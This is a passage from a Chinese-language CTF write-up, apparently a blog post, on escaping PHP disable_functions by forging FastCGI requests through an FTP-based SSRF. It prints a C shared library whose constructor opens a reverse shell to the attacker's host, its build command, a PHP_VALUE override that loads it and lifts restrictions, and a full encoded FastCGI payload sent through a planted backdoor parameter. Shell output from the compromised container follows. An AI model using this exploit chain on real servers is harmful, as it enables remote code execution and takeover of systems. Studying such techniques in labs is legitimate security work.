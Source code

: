 打过去，看vps上的ftp断开，说明对话成功，回头看一眼**phpinfo()**:

![image-20210505185334445](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505185334445.png)

后面就好说了，然鹅当我打开蚁剑，发现还是什么也动不了，命令执行还是和之前一模一样...我傻了

翻阅资料才发现伪造FastCGI请求PHP-CGI本身就是一次性的，相当于执行一次命令(之前gopher打ssrf那个脚本也是同理)，那最好的办法当然还是加载.so去打ssrf了...

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void hack (void){
    system("bash -c 'bash -i >& /dev/tcp/ip/8000 0>&1'");
}
```

```bash
gcc theoyu.c -shared -o theoyu.so 
```

把theoyu.so传到/var/www/html 目录后，再把之前脚本的php_value改为：

```php
$php_value = "unserialize_callback_func = system\nextension_dir = /var/www/html\nextension = theoyu.so\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = "; // extension_dir即为.so文件所在目录
```

```
/add_api.php?backdoor=$file = $_GET['file'];$data = $_GET['data'];file_put_contents($file,$data);&file=ftp://ip:12345/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02G%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%BBPHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Fvar%2Fwww%2Fhtml%0Aextension+%3D+theoyu.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0DSERVER_SOFTWARE80sec%2Fwofeiwo%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

同时vps打开监听，反弹成功后终于可以动了。

![image-20210505204851091](https://cdn.jsdelivr.net/gh/yuuuuu422/Myimages/img/2021/05/2021-05-05-image-20210505204851091.png)

```bash
www-data@2be1b7732d18:/$ ls -al
total 8
drwxr-xr-x    1 root root   78 May  5 09:53 .
drwxr-xr-x    1 root root   78 May  5 09:53 ..
-rwxr-xr-x    1 root root    0 May  5 09:53 .dockerenv
drwxr-xr-x    1 root root  179 Apr 29 14:53 bin
drwxr-xr-x    2 root root    6 Mar 19 23:44 boot
drwxr-xr-x    5 root root  340 May  5 09:53 dev
drwxr-xr-x    1 root root   66 May  5 09:53 etc
-rwx------    1 root root   43 May  5 09:53 flag
drwxr-xr-x    2 root root    6 Mar 19 23:44 home
drwxr-xr-x    1 root root   45 Apr 29 14:53 lib
drwxr-xr-x    2 root root   34 Apr  8 00:00 lib64
drwxr-xr-x    2 root root    6 Apr  8 00:00 media
drwxr-xr-x    2 root root    6 Apr  8 00:00 mnt
drwxr-xr-x    2 root root    6 Apr  8 00:00 opt
dr-xr-xr-x 2312 root root    0 May  5 09:53 proc
drwx------    1 root root    6 Apr 29 15:13 root
drwxr-xr-x    1 root root   23 May  5 09:53 run
```